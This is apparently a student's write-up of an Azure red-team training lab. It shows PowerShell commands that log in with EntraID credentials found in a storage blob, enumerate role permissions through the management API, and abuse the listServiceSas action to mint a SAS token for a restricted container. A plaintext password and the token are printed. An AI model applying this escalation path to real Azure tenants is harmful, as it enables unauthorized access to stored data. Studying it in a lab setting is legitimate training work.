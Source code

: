 - SAS tokens are usually used to grant temporary access to the users with limited permissions. We can use the **Azure Storage Explorer** to connect to the provided Blob Container anonymously.
- In the Container Blob we can find a file that contains a set of EntraID credentials. We can use them to authenticate to Azure.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $password = ConvertTo-SecureString 'Spg%@$kwx98NDHd' -AsPlainText -Force
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $creds = New-Object System.Management.Automation.PSCredential('AS-lexniwpbht2604325@azredlabs.onmicrosoft.com', $password)
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Connect-AzAccount -Credential $creds

Account                                        SubscriptionName         TenantId                             Environment
-------                                        ----------------         --------                             -----------
AS-lexniwpbht2604325@azredlabs.onmicrosoft.com AzureRedTeamLabsPlatform e7ec98df-e820-4b81-9efd-1b14139b8061 AzureCloud
```

- We can now list any accessible Resources.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Get-AzResource

Name              : asiztofrgdwy2604328
ResourceGroupName : AS-ridyxkgvah2604327
ResourceType      : Microsoft.Storage/storageAccounts
Location          : centralus
ResourceId        : /subscriptions/3464f941-8380-4885-ac9c-e46bc95e47bb/resourceGroups/AS-ridyxkgvah2604327/providers/Microsoft.Storage/storageAccounts/asiztofrgdwy2604328
Tags              :
```

- We can use the **Azure Storage Explorer** to authenticate as that User Identity and access the Storage Account. We find 2 Blob Containers, 1 of which is new, however we cannot access its contents.

- We can attempt to list the User Identity's Role Definitions in the current accessible Resources.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Get-AzRoleAssignment
```

- Since the command above shows no output, we will have to query the Azure API.
```powershell
$accessToken = (Get-AzAccessToken).Token  
$StorageAccount = Get-AzStorageAccount  
$SubscriptionID = (Get-AzSubscription).Id  
$ResourceGroupName = $StorageAccount.ResourceGroupName  
$StorageAccountName = $StorageAccount.StorageAccountName  
$URI = "https://management.azure.com/subscriptions/$SubscriptionID/resourceGroups/$ResourceGroupName/providers/Microsoft.Storage/storageAccounts/$StorageAccountName/providers/Microsoft.Authorization/permissions?api-version=2022-04-01"  
$RequestParams = @{  
Method = 'GET'  
Uri = $URI  
Headers = @{  
'Authorization' = "Bearer $accessToken"  
}  
ContentType = "application/json"  
  
}  
  
$Result = Invoke-RestMethod @RequestParams  
$Result.value.actions
```

```powershell
Microsoft.Storage/storageAccounts/read
Microsoft.Storage/storageAccounts/listServiceSas/action
Microsoft.Storage/storageAccounts/blobServices/containers/read
```

- We can see that we can list the Service SAS from the accessible Storage Account. We can use the Azure API to do so.
```powershell
$accessToken = (Get-AzAccessToken).Token
$StorageAccount = Get-AzStorageAccount
$SubscriptionID = (Get-AzSubscription).Id
$ResourceGroupName = $StorageAccount.ResourceGroupName
$StorageAccountName = $StorageAccount.StorageAccountName

$body = @(
@{
'canonicalizedResource' = '/blob/asiztofrgdwy2604328/asbptacdifqg2604349'
'signedResource' = 'c'
'signedPermission' = 'rl'
'signedExpiry' = '2026-05-24T11:32:48.8457197Z'
}
) | ConvertTo-Json -Depth 4



$headers = @{
Authorization = "Bearer $accessToken"
}

$url = "https://management.azure.com/subscriptions/$SubscriptionID/resourceGroups/$ResourceGroupName/providers/Microsoft.Storage/storageAccounts/$StorageAccountName/ListServiceSas?api-version=2021-09-01"

$result = Invoke-WebRequest -Method Post -Headers $headers -Body $body -Uri $url -ContentType 'application/json'
$result.Content
```

```powershell
{"serviceSasToken":"sv=2015-04-05&sr=c&se=2026-05-24T11%3A32%3A48.8457197Z&sp=rl&sig=l1%2FZKChVaYchmtXxKKgiHmv3GDJMnECxbaDb0o5aCW4%3D"}
```

- We can now use the SAS token combined with the URL of the Blob Container we wish to access in the **Azure Storage Explorer**.
	- We can find the URL in the Metadata of the Blob Container which can be obtained by right-clicking on it and selecting `Properties` on the **Azure Storage Explorer**.
	  `https://asiztofrgdwy2604328.blob.core.windows.net/asbptacdifqg2604349`

- The final URL will be the following. We will use it to access the Blob Container through the `Shared access signature URL (SAS)` authentication method.
`https://asiztofrgdwy2604328.blob.core.windows.net/asbptacdifqg2604349?sv=2015-04-05&sr=c&se=2026-05-24T11%3A32%3A48.8457197Z&sp=rl&sig=l1%2FZKChVaYchmtXxKKgiHmv3GDJMnECxbaDb0o5aCW4%3D`